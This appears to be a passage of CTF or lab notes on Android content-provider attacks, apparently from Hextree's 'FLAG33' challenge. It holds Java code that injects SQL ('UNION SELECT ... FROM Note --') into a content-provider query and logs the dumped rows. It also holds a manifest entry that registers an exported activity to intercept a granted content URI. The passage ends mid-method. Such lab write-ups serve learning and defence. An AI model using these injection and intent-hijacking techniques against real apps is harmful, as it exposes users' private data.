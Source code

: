```java
        if (requestCode == 1) { // Matching the requestCode
            if (resultCode == RESULT_OK) {
                dump(data.getData());
            }
        }

    }

    public void dump(Uri uri) {
        Cursor cursor = getContentResolver().query(uri, null, "1=1 UNION SELECT null, title, content, null FROM Note --", null, null);
        if (cursor.moveToFirst()) {
            do {
                StringBuilder sb = new StringBuilder();
                for (int i = 0; i < cursor.getColumnCount(); i++) {
                    if (sb.length() > 0) {
                        sb.append(", ");
                    }
                    sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
                }
                Log.d("evil", sb.toString());
            } while (cursor.moveToNext());
        }
    }
```

## Hijacking Content Provider Access

- Example class:
```java
Intent intent = new Intent();
intent.setAction("io.hextree.FLAG33");
intent.setData(Uri.parse("content://io.hextree.flag33_2/flags"));
intent.addFlags(1);
startActivity(intent);
```

- We can create another activity that handles the action and Uri, We should define it in AndroidManifes.xml:
```xml
<activity
    android:name=".Second_Activity"
    android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.FLAG33" />
        <category android:name="android.intent.category.DEFAULT" />
        <data
            android:scheme="content"
            android:host="io.hextree.flag33_2"
            android:path="/flags"/>
    </intent-filter>
</activity>
```
- Second_Activity.class
```java
Intent intent = getIntent();
dump(intent.getData());




    public void dump(Uri uri) {
        Cursor cursor = getContentResolver().query(uri, null, "_id=2 UNION SELECT 1, title, content, null FROM Note --", null, null);
```
